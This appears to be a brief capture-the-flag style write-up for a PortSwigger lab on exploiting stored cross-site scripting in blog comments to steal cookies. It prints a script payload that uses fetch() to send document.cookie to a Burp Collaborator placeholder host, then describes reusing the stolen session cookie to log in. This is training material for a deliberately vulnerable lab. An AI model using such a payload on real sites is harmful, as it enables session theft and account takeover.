








>>> Platform -> Portswigger
>> ### Target -> Lab: Exploiting cross-site scripting to steal cookies

----
**Where is Vuln**: stored XSS vulnerability in the blog comments function
**Goal** : Steal Cookie and login

----


### Steps:
1. Open the Lab..
2. click any post comment with vannila xss payload
3. Comment field is our endpoint. 
4. this is work 
5. lets steal cookie... use burp collabrator   - 
6. if your don't have burp pro use [interact.sh](https://app.interactsh.com/) -> 
7. steal cookie using fetch() function
```html
<script>fetch('https://Burp_collablink?cookie='+document.cookie);</script>
```
8.  now i'm steal cookie
9.  go in application tab in paste your session cookie
10. then lab solve 
